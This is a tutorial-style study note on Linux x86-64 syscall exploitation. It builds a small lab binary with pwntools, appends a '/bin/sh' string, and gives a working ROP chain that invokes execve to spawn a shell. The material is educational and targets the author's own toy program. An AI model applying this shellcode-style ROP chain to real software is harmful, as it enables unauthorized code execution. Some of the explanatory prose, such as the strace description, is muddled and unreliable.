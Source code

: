 ```yaml
---
description: 09/22/2023
---
```


# Exploitation w/ Syscalls

## References

{% embed url="https://book.hacktricks.xyz/reversing-and-exploiting/linux-exploiting-basic-esp/rop-syscall-execv" %}

{% embed url="https://ir0nstone.gitbook.io/notes/types/stack/syscalls/exploitation-with-syscalls" %}

**First, we'll create a file with Python/pwntools:**

```python
import os
from pwn import *


context.arch = 'amd64'
context.os = 'linux'

elf = ELF.from_assembly(
    '''
        mov rdi, 0;
        mov rsi, rsp;
        sub rsi, 8;
        mov rdx, 300;
        syscall;
        ret;
        
        pop rax;
        ret;
        pop rdi;
        ret;
        pop rsi;
        ret;
        pop rdx;
        ret;
    '''
)
elf.save('vuln')
os.system("chmod +x vuln")
```

It will first execute a `read()` syscall. This will read from a file descriptor (identifier for a file or other resource).

**We can see this with `strace`:**

```
strace ./vuln
execve("./vuln", ["./vuln"], 0x7ffd9782ca00 /* 22 vars */) = 0
read(0,
"\n", 300)
```

We can see `execve()` placing the value `0` into `RAX` (which the kernel checks), storing the value as a parameter (`0`) into `RDI` and calling `read()` or `0` which is the syscall number for `read()`.

## Analyzing Syscalls in Ghidra

Okay, so this was a little different.

We can see that the value, <mark style="color:yellow;">`0`</mark> <mark style="color:yellow;">is</mark> <mark style="color:yellow;">being moved onto the stack and being placed into the</mark> <mark style="color:yellow;"></mark><mark style="color:yellow;">`RDI`</mark> <mark style="color:yellow;">register</mark>.

This is our <mark style="color:yellow;">invoke of the</mark> <mark style="color:yellow;"></mark><mark style="color:yellow;">`read()`</mark> <mark style="color:yellow;"></mark><mark style="color:yellow;">syscall since</mark> <mark style="color:yellow;"></mark><mark style="color:yellow;">`0`</mark> <mark style="color:yellow;"></mark><mark style="color:yellow;">is our syscall number</mark>.

We then write the value `300` (had to convert this from `0x12C`) to the stack using `RDX`.

Lastly, we `ret`.

<figure><img src="../../.gitbook/assets/image (3) (1) (1).png" alt=""><figcaption><p>Ghidra Analysis</p></figcaption></figure>

**We can add `"/bin/sh"` by:**&#x20;

```
echo -en "/bin/sh\x00" >> vuln
```

**After that, we can get the gadget address using `strings`:**

```
strings -t x vuln | grep bin
   1238 /bin/sh
```

We see the offset from the base to the string is `0x1238`.

## Exploitation

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Arming ourselves with the following information will allow us to get a shell.

```python
from pwn import *

elf = context.binary = ELF('./vuln')
p = process()

binsh = elf.address + 0x1238

POP_RAX = 0x10000018
POP_RDI = 0x1000001a
POP_RSI = 0x1000001c
POP_RDX = 0x1000001e
SYSCALL = 0x10000015

payload = flat(
    'A' * 8,
    POP_RAX,
    0x3b,
    POP_RDI,
    binsh,
    POP_RSI,
    0x0,
    POP_RDX,
    0X0,
    SYSCALL
)

p.sendline(payload)
p.interactive()
```

<mark style="color:red;">**Disclaimer**</mark>: Unfortunately and for the first time, I wasn't really fond of Ir0nstone's guide on this one, so I will be adding some more examples.

As a result, this is still a work in progress.
